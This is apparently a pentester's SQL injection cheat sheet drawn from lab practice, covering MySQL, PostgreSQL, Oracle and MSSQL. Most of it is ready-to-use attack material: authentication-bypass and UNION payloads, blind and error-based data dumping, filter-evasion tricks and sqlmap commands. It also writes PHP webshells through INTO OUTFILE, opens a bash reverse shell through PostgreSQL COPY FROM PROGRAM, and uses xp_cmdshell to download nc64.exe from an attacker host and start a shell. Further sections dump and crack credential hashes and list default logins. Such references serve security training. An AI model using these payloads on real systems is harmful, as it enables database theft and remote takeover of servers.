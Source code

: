 # SQLi

<details>

<summary>Common SQLi payload</summary>

```sql
' OR 1=1-- -

# LIMIT X,1 to get the xth user (0 based).
' OR 1=1 LIMIT 1-- -
' or 1=1 LIMIT 0,1-- -

' OR '1'='1
```

</details>

### Determing which type of DB

| Type of DB | Method                                                           |
| ---------- | ---------------------------------------------------------------- |
| MySQL      | `SELECT @@version`                                               |
| SQLite     | `SELECT sqlite_version()`                                        |
| Microsoft  | `SELECT @@version`                                               |
| PostgreSQL | `SELECT version()`                                               |
| Oracle     | `SELECT banner FROM v$version`, `SELECT version FROM v$instance` |

### Commenting in SQL

<figure><img src="../.gitbook/assets/sql comments.jpg" alt=""><figcaption></figcaption></figure>

The figure above summarizes the syntax for commenting in various SQL DB. Do note that for MySQL, `-- -` is required for commenting instead of `--` as a whitespace or control character is required after the second dash.

> When using `#` as a comment for MySQL, there’s no need to add a space after.

### Nuances between diff DB

* Oracle requires every `SELECT` statement to include a `FROM` attribute. (`UNION SELECT NULL`will fail, need to be `UNION SELECT NULL FROM DUAL` instead) (`DUAL` is a globally accessible table)

<details>

<summary>SQLi to PHP Webshell (RCE)</summary>

```bash
debug.php?id=1 union all select 1, 2, "<?php echo '<pre>' . shell_exec($_GET['cmd']);?> . '</pre>';?>" into OUTFILE "c:/xampp/htdocs/backdoor.php"
```

```sql
union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

```sql
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php'  -- -'  
```

</details>

#### Overview for SQLi <a href="#overview-for-sqli" id="overview-for-sqli"></a>

| No.   | Steps                                                                          | Method                                                                                                                                                                                                         |
| ----- | ------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1     | Identify instances where application access DB                                 | Look at URL param, cookies, POST data, HTTP headers                                                                                                                                                            |
| 2     | Try injecting SQL                                                              | Start with single quotes, concatenator characters, eg: `' 'FOO`                                                                                                                                                |
| 3     | Determine no. of cols                                                          | `' UNION SELECT NULL -- -`, `' UNION SELECT NULL,NULL -- -` … until there’s no error                                                                                                                           |
| 4.1   | Determine which cols have string data type                                     | `' UNION SELECT 'a', NULL, NULL -- -`, `' UNION SELECT NULL, 'a', NULL -- -`, `' UNION SELECT NULL, NULL, 'a' -- -` … until there’s no error                                                                   |
| 4.2   | Determine which cols have numeric data type                                    | `' UNION SELECT 1, NULL, NULL -- -`, `' UNION SELECT NULL, 1, NULL -- -`, `' UNION SELECT NULL, NULL, 1 -- -`… until there’s no error                                                                          |
| 4.3   | Use conditional responses if there’s no direct method of transmitting data     | `admin' and ASCII(SUBSTRING(password,1,1))=113 -- -` login succeeds means first char for password is `q`                                                                                                       |
| 4.4.1 | Use conditional errors if there’s no noticeable effect on application behavior | `SELECT 1/0 FROM dual WHERE (SELECT username FROM users WHERE username = 'alice') = 'alice'`. dual is default dummy table present in most DB. If query has error, means `alice` is a valid username            |
| 4.4.2 | Conditional errors (time delay)                                                | `' UNION SELECT IF(ASCII(SUBSTRING(@@version,1,1))=49,BENCHMARK(5000000,SHA1('dummy_data')),NULL),NULL,NULL -- -`. If first char of database version is `1` (ASCII: 49), will have delay in server’s response. |
| 5     | Extracting table and cols name                                                 | `' UNION SELECT table_name, column_name, NULL FROM information_schema.columns -- -`                                                                                                                            |
| 6.1   | Dumping DB using multi cols with string data type                              | `' UNION SELECT first_name, last_name, employee_id FROM dependents –- -`                                                                                                                                       |
| 6.2   | Dumping DB using 1 col with string data type                                   | `SELECT CONCAT(username,':',password), NULL, NULL from users -- -`                                                                                                                                             |
| 6.3   | Dumping DB using multi cols with numeric data type                             | `' UNION SELECT ASCII(SUBSTRING(password,1,1)),NULL,NULL FROM users WHERE username='admin' -- -` (returns 113, i.e., ‘q’)                                                                                      |
| 6.4   | Dumping DB using conditional responses                                         | `admin' and ASCII(SUBSTRING(password,1,1))=113 -- -` (login succeeds) ASCII 113 corresponds to letter ‘q’                                                                                                      |

<details>

<summary>Search for interesting table, col name</summary>

```sql
SELECT table_name,column_name FROM information_schema.columns where column_name LIKE '%PASS%'
```

</details>

<details>

<summary>Concat multi cols to single col</summary>

### Oracle

```sql
SELECT table_name||':'||column_name FROM
all_tab_columns
```

### MSSQL

```sql
SELECT table_name+':'+column_name from information_schema.columns
```

### MySQL

```sql
SELECT CONCAT(table_name,’:’,column_name) from information_schema.columns
```

</details>

#### Bypassing filters <a href="#bypassing-filters" id="bypassing-filters"></a>

| Types of blacklisting filter | Ways to bypass                                                                                                                                                                                                    |
| ---------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Strings                      | Use CHAR() function to construct strings. eg: `CHAR(109)+CHAR(97)` is equals to `'ma'`                                                                                                                            |
| Comments                     | Use `' OR 'a'='a` instead of `' OR 1=1 -- -`                                                                                                                                                                      |
| Keywords                     | Try mix of different cases, adding null byte in front, manipulating string, converting string to URL encoded form. Eg: `SELECT` is banned but can try `SeLeCt`, `%00SELECT`, `SELSELECTECT`, `%53%45%4c%45%43%54` |

#### SQLmap <a href="#sqlmap" id="sqlmap"></a>

| Types of attack                   | Methods                                                                                         |
| --------------------------------- | ----------------------------------------------------------------------------------------------- |
| POST request                      | `sqlmap -u <URL> --cookie='PHPSESSID=op2….' --data='user=a&pass=a' -p user --technique=B --dbs` |
| GET request                       | `sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U --dbs`                     |
| Using Request file from Burpsuite | `sqlmap -r <path to .req file> -p user –dbs`                                                    |

```
--dbs: show the databases connected to the application
-D database_name --tables: show all tables in db
-T table_name --columns: show all columns of the db
-C column1,column2  --dump: dump all the contents of the columns
```

<details>

<summary>Second Order SQLi</summary>

When data is first inserted into the DB, it is properly sanitised. Afterwards, it may be processed in unsafe ways.

Eg: When a user search for the term `O'Reilly`, the query term was `SELECT author,title,year FROM books WHERE publisher='O''Reilly'`. Notice how the quotation mark after `O` was escaped. However, when the `publisher` was being called in a later query, it might have the search string `SELECT * FROM publisher='O'Reilly'`. This causes second-order SQLi.

</details>

<details>

<summary>Interacting with SQL servers</summary>

#### MySQL

```bash
mysql --host=192.168.163.220 -u root -proot 
```

```sql
SHOW DATABASES;
```

```sql
USE <database_name>;
```

```sql
SHOW TABLES;
```

```sql
SELECT * FROM <table_name>;
```

#### NoSQL (eg: MongoDB)

```bash
apt-get install mongodb-clients
mongo --host 192.168.192.110:27017
```

* Tables in MySQL \~ Collections in Mongo
* Rows in MySQL \~ Documents in Mongo
* Columns in MySQL \~ Fields in Mongo
* $and equivalent to AND in MySQL
* $or equivalent to OR in MySQL
* $eq equivalent to = in MySQL

```sql
SHOW databases;
```

```sql
USE <database_name>;
```

```sql
SHOW collections;
```

```sql
db.<collection_name>.find();
```

### PostgreSQL

```sql
psql -U christine -h localhost -p 1234
```

List existing databases:

```
\l
```

Select a database:

```
\c <database_name>
```

List the database's tables:

```
\dt
```

Dump tables' content:

```sql
SELECT * FROM <table_name>;
```

</details>

<details>

<summary>Logging in to MySQL</summary>

```bash
mysql --host=192.168.163.220 -u root -proot 
```

</details>

<details>

<summary>Logging in to MongoDB</summary>

```bash

mongo --host 192.168.192.110:27017
```

</details>

<details>

<summary>Logging in to PostgreSQL</summary>

```bash
psql -h 192.168.208.47 -p 5437 -U postgres 
```

Creds to try:

```bash
postgres:<blank>
postgres:postgres
admin:admin
```

</details>

<details>

<summary>PostgreSQL to reverse shell</summary>

Tells the backend database to create a new table utilizing a cmd\_exe function which then use to initiate a reverse shell

```sql
'; CREATE TABLE cmd_exec(cmd_output text); --
```

```sql
'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/10.10.14.225/1234 0>&1'''; -- 
```

```sql
postgres-# \l
                                                List of databases
   Name    |  Owner   | Encoding |  Collate   |   Ctype    | ICU Locale | Locale Provider |   Access privileges   
-----------+----------+----------+------------+------------+------------+-----------------+-----------------------
 postgres  | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | 
 template0 | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | =c/postgres          +
           |          |          |            |            |            |                 | postgres=CTc/postgres
 template1 | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | =c/postgres          +
           |          |          |            |            |            |                 | postgres=CTc/postgres
(3 rows)

postgres-# \c postgres
psql (15.2 (Debian 15.2-2), server 12.3 (Debian 12.3-1.pgdg100+1))
You are now connected to database "postgres" as user "postgres".
postgres-# CREATE TABLE cmd_exec(cmd_output text);
postgres=# COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/192.168.45.5/80 0>&1''';


┌──(root㉿kali)-[/home/kali/Documents/pg_practice/192.168.159.60]
└─# nc -lvp 80  
listening on [any] 80 ...
192.168.159.60: inverse host lookup failed: Unknown host
connect to [192.168.45.5] from (UNKNOWN) [192.168.159.60] 44254
bash: cannot set terminal process group (177): Inappropriate ioctl for device
bash: no job control in this shell
postgres@326cfee15738:~/data$ whoami
whoami
postgres
```

</details>

<details>

<summary>Oracle SQLi</summary>

### Retrieve Current User

```bash
sdfas' AND 1=CTXSYS.DRITHSX.SN(user,(select user from dual))-- -
```

![](<../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png>)

`WEB_APP`

### Retrieve Database

```bash
sdfas' AND 1=CTXSYS.DRITHSX.SN(user,(SELECT SYS.DATABASE_NAME FROM DUAL))-- -
```

![](<../.gitbook/assets/image (20).png>)

`XE`

### Retrieve tables

* Can only retrieve on table name at a time

![](<../.gitbook/assets/image (53).png>)

```bash
admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT username FROM (SELECT ROWNUM r,username,password FROM all_users ORDER BY username) WHERE r=1))-- AeSCD
```

### Bash scripting to retrieve all tables

```bash
for NUM in {1..1000}; do curl -sLkX POST --url <http://10.11.1.222:8080/blog/loginprocess.jsp> --data-urlencode "username=admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT table_name FROM (SELECT ROWNUM r,table_name FROM all_tables ORDER BY table_name) WHERE r=${NUM}))-- AeSCD&password=sdfdsaf" | grep -E "^DRG.*" | cut -d ' ' -f 3 | sort -u; sleep 10; done
```

* Found `WEB_ADMINS` table

### Find Cols

```bash
for NUM in {1..1000}; do curl -sLkX POST --url <http://10.11.1.222:8080/blog/loginprocess.jsp> --data-urlencode "username=admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT column_name FROM (SELECT ROWNUM r,column_name FROM all_tab_columns WHERE table_name = 'WEB_ADMINS') WHERE r=${NUM}))-- AeSCD&password=ASIJDSA" | grep -E "^DRG.*" | cut -d ' ' -f 3 | sort -u; sleep 10; done
```

* ADMIN\_ID
* ADMIN\_NAME
* PASSWORD

### Dump Cols

```bash
for NUM in {1..1000}; do curl -sLkX POST --url <http://10.11.1.222:8080/blog/loginprocess.jsp> --data-urlencode "username=admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT ADMIN_NAME FROM (SELECT ROWNUM r,ADMIN_NAME FROM WEB_ADMINS ORDER BY ADMIN_ID) WHERE r=${NUM}))-- AeSCD&password=ASIJDSA" | grep -E "^DRG.*" | cut -d ' ' -f 3 | sort -u; sleep 10; done
```

* user named `admin`

```bash
for NUM in {1..1000}; do curl -sLkX POST --url <http://10.11.1.222:8080/blog/loginprocess.jsp> --data-urlencode "username=admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT PASSWORD FROM (SELECT ROWNUM r,PASSWORD FROM WEB_ADMINS ORDER BY ADMIN_ID) WHERE r=${NUM}))-- AeSCD&password=ASIJDSA" | grep -E "^DRG.*" | cut -d ' ' -f 3 | sort -u; sleep 10; done
```

* password = `d82494f05d6917ba02f7aaa29689ccb444bb73f20380876cb05d1f37537b7892` —> `adminadmin`

</details>

<details>

<summary>MSSQLi</summary>

```sql
' OR 1=1-- -
' UNION SELECT @@version,1-- -
' UNION SELECT DB_NAME(), 1-- -
' UNION SELECT table_name, 1 FROM information_schema.columns-- -
' UNION SELECT name, 1 FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'users')-- -
' UNION SELECT CONCAT(id,',',name,',',pass), 1 FROM users-- -
```

### ALWAYS TEST FOR xp\_cmdshell in SQLi

```bash
python3 mkpsrevshell.py 192.168.45.162 443
# powershell -e JABjAGwAaQBlAG4A...

# SQLi Query for xp_cmdshell PS rev shell
' EXEC xp_cmdshell 'powershell -e JABjAGwAaQBlAG4AdAAgAD...
```

### Manual xp\_cmdshell

```sql
#Check if Sysadmin --> will return 1
' UNION SELECT is_srvrolemember('sysadmin'), 1-- -

' UNION SELECT 'hi', 1;EXEC sp_configure 'show advanced options', 1-- -
' UNION SELECT 'hi', 1;RECONFIGURE-- -
' UNION SELECT 'hi', 1;EXEC sp_configure 'xp_cmdshell', 1-- -
' UNION SELECT 'hi', 1;RECONFIGURE-- -

' UNION SELECT 'hi', 1; EXEC xp_cmdshell 'powershell -c cd c:\windows\temp;wget http://192.168.45.197/nc64.exe -outfile nc64.exe'-- -
' UNION SELECT 'hi', 1; EXEC xp_cmdshell 'powershell -c c:\windows\temp\nc64.exe -e cmd.exe 192.168.45.197 443'-- -
```

### Obtain MSSQL Server Login Creds

<pre class="language-sql"><code class="lang-sql">' UNION SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash), 1 FROM master.sys.sql_logins-- -
<strong>
</strong><strong>#Artist name: sa-0x020017264e939f9e1ec90ffd4c612716904c9a05f8f51ff0e2e470afd917b1bff2cf8248d2661539cc300512bffcf6898271e532ba7cb64cf85a97883f27f9868beae551539e - From the year: 1
</strong></code></pre>

SA hash:

* 0200 —>version (SHA-2 512bit)
* Salt (4 Bytes) —> 17264e93
* Hash (64 Bytes) —> 9f9e1ec90ffd4c612716904c9a05f8f51ff0e2e470afd917b1bff2cf8248d2661539cc300512bffcf6898271e532ba7cb64cf85a97883f27f9868beae551539e

Cracking with hashcat:

```bash
hashcat -m 1710 -a 0 hash.txt rockyou.txt
```

</details>

<details>

<summary>Unique MSSQLi</summary>

### Susceptible to SQLi?

* put in `'` and crash occurred

### What the insert statement would look like

```sql
INSERT INTO users_DB (username, password) VALUES ('admin', 'admin')
```

### Where to get the Error-based MSSQL payloads?

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL)&#x20;

```sql
For integer inputs : convert(int,@@version)
For integer inputs : cast((SELECT @@version) as int)

For string inputs   : ' + convert(int,@@version) + '
For string inputs   : ' + cast((SELECT @@version) as int) + '
```

* However, the payloads will not work right off the bat because the context is that it’s an `insert` statement instead of the usual `select` statement.

### Show version MSSQL SQLi

```sql
' + cast((SELECT @@version) as int) + ')
```

so the new insert statement will be:

```sql
INSERT INTO users_DB (username, password) VALUES ('' + cast((SELECT @@version) as int) + ')', 'admin')
```

### Show DB in MSSQL

```sql
' + cast((SELECT DB_NAME()) as int) + ')
```

* DB name —> `newsletter`

### Show table names

* unable to dump more than 1 row at a time.
* concat all rows ([https://www.mytecbits.com/microsoft/sql-server/concatenate-multiple-rows-into-single-string](https://www.mytecbits.com/microsoft/sql-server/concatenate-multiple-rows-into-single-string))

```sql
' + cast((SELECT ',' + table_name AS 'data()' FROM information_schema.columns FOR XML PATH ('') ) as int) + ') 
```

* tables are called `users`

### Show Cols names

```sql
' + cast((SELECT ',' + column_name AS 'data()' FROM information_schema.columns FOR XML PATH ('') ) as int) + ') 
```

* Found cols: `email, userid, username`

#### Dump email,user\_id,username data

#### Dump Email

```sql
' + cast( (SELECT ',' + email AS 'data()' FROM users FOR XML PATH ('')) as int) + ') 
```

* Found the emails

#### Dump username

```sql
' + cast( (SELECT ',' + username AS 'data()' FROM users FOR XML PATH ('')) as int) + ')
```

* Found usernames

### Show all databases

```sql
' + cast( (SELECT ',' + name AS 'data()' FROM master..sysdatabases FOR XML PATH ('')) as int) + ')
```

* Found dbs

### Show table in archive DB

```sql
' + cast((SELECT name FROM archive..sysobjects WHERE xtype = 'U') as int) + ') 
```

* Found the `pmanager` table

### Show the cols in `archive` DB

```sql
' + cast((SELECT ',' + archive..syscolumns.name AS 'data()' FROM archive..syscolumns FOR XML PATH ('')) as int) + ') 
```

* Found this:

```sql
alogin ,id ,psw ,binary_message_body ,conversation_group_id ,conversation_handle ,fragment_bitmap ,fragment_size ,message_enqueue_time ,message_id ,message_sequence_number ,message_type_id ,next_fragment ,priority ,queuing_order ,service_contract_id ,service_id ,status ,validation ,binary_message_body ,conversation_group_id ,conversation_handle ,fragment_bitmap ,fragment_size ,message_enqueue_time ,message_id ,message_sequence_number ,message_type_id ,next_fragment ,priority ,queuing_order ,service_contract_id ,service_id ,status ,validation ,binary_message_body ,conversation_group_id ,conversation_handle ,fragment_bitmap ,fragment_size ,message_enqueue_time ,message_id ,message_sequence_number ,message_type_id ,next_fragment ,priority ,queuing_order ,service_contract_id ,service_id ,status ,validation
```

* There’s `id` and `psw`

### Dump the `psw` cols

```sql
' + cast((SELECT ',' + psw AS 'data()' FROM archive..pmanager FOR XML PATH ('')) as int) + ') 
```

Found password hashes

#### Dump `alogin` col

```sql
' + cast((SELECT ',' + alogin AS 'data()' FROM archive..pmanager FOR XML PATH ('')) as int) + ') 
```

</details>

<details>

<summary>Links</summary>

[Burpsuite SQL Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

</details>
